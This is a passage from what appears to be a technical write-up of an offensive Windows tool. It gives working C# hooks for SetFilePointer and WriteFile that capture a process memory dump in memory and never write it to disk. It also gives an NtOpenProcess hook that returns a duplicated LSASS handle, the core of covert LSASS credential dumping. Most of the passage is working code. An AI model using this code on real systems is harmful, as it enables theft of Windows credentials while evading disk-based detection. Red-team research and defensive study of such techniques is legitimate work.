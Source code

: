 The `SetFilePointer` hook is tasked with tracking the position of our in memory file pointer.  Again, nothing too fancy other than calculating where the new position is, based on the current position and the move method and distance requested.

### WriteFile

```c#
static bool WriteFile(IntPtr fileHandle, IntPtr buffer, uint numberOfBytesToWrite, out uint numberOfBytesWritten, IntPtr overlapped) {

    DumpContext dc = GetDumpContextFromHandle(fileHandle);
    if (dc == null)
        return WriteFile_orig(fileHandle, buffer, numberOfBytesToWrite, out numberOfBytesWritten, overlapped);

    if (dc.Limit != 0 && dc.CurrentOffset + numberOfBytesToWrite > dc.Limit) {
        SetLastError(ERROR_DISK_FULL);
        numberOfBytesWritten = 0;
        return false;
    } else if (dc.CurrentOffset + numberOfBytesToWrite > dc.Data.Length) {
        dc.Resize(dc.CurrentOffset + numberOfBytesToWrite);
    }

    Marshal.Copy(buffer, dc.Data, (int)dc.CurrentOffset, (int)numberOfBytesToWrite);
    dc.CurrentOffset += numberOfBytesToWrite;
    numberOfBytesWritten = numberOfBytesToWrite;

    int growth = (int)dc.CurrentOffset - (int)dc.Size;
    if (growth > 0) {
        dc.Size += (uint)growth;
    }

    return true;
}
```

Next we have the `WriteFile` function hook.  This function is tasked with expanding our in memory buffer when we detect that a file write has passed the end of our virtual file size and to also copy the content of the pending write to our in memory buffer instead of a real file.  Because memory dumps can be large, I added the concept of a memory dump size limit.  In this scenario if a memory dump goes beyond the limit, we simulate an ERROR_DISK_FULL error to prevent potential memory exhaustion on machines with limited resources.


```c#
static int NtOpenProcess(IntPtr ProcessHandle, uint desiredAccess, IntPtr ObjectAttributes, IntPtr ClientId) {

    int pid = Marshal.ReadInt32(ClientId);
    if(pid != lsassPid)
        return NtOpenProcess_orig(ProcessHandle, desiredAccess, ObjectAttributes, ClientId);

    IntPtr currentProcess = new IntPtr(-1);
    IntPtr newLsassHandle;

    if(!DuplicateHandle(currentProcess, lsassHandle, currentProcess, out newLsassHandle, 0, false, 0x2)) {
        Console.WriteLine("[!] Failed to fake NtOpenProcess on LSASS PID");
        return Marshal.GetLastWin32Error();
    }

    Marshal.WriteIntPtr(ProcessHandle, newLsassHandle);
    return 0;
}
```
